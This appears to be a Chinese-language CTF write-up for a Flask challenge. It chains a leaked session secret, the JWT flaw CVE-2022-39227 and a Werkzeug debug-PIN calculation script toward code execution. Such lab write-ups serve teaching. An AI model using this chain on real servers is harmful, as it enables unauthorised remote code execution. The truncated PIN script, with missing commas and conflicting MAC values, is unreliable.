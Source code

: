 ![20240507195805698](https://img.crzliang.cn/img/202406012237604.png)

得到了app.py的绝对路径：/usr/local/lib/python3.11/site-packages/flask/app.py
 uuidnode mac的信息：uuidnode_mac位于/woddenfish

### uuidnode mac

在点击抓包的时候发现有一个flask session

![20240507201134855](https://img.crzliang.cn/img/202406012237605.png)

然后利用hackbar重新构造session即可，密钥在网站源码中可以得到：ISCC_muyu_2024

![20240506230754553](https://img.crzliang.cn/img/202406012237606.png)

得到mac地址为：02:42:ac:18:00:02->0266172240002
以及machine_id的线索：`/machine_id`

### machine_id

点击中间的`VIP会员奖品`返回了一个jwt_token
这里是有一个CVE-2022-39227的CVE可利用

![20240512193724551](https://img.crzliang.cn/img/202406012237607.png)

脚本：https://github.com/user0x1337/CVE-2022-39227
注入role=vip
得到的新的token要经过url编码，不然会报400错误

![20240512201603742](https://img.crzliang.cn/img/202406012237608.png)

得到了flask session的key
然后用脚本伪造session即可得到machine_id
脚本：https://github.com/noraj/flask-session-cookie-manager

![20240512201541118](https://img.crzliang.cn/img/202406012237609.png)

### 计算pin

网上可以找到脚本[Flask调试模式PIN值计算和利用](https://blog.hz2016.com/2023/07/flask%E8%B0%83%E8%AF%95%E6%A8%A1%E5%BC%8Fpin%E5%80%BC%E8%AE%A1%E7%AE%97%E5%92%8C%E5%88%A9%E7%94%A8/)

```python
import hashlib

from itertools import chain

probably_public_bits = [

    'pincalculate'  # username 可通过/etc/passwd获取

    'flask.app',  # modname默认值

    'Flask',  # 默认值 getattr(app, '__name__', getattr(app.__class__, '__name__'))

    '/usr/local/lib/python3.11/site-packages/flask/app.py'  # 路径 可报错得到  getattr(mod, '__file__', None)

]

private_bits = [

    '2485378351106',  # mac地址十进制,使用print(int("02:42:ac:18:00:02".replace(":",""),16))，即可转换成10进制

    '39c61de4-9c0a-4738-b95d-ef3f488d7222'

```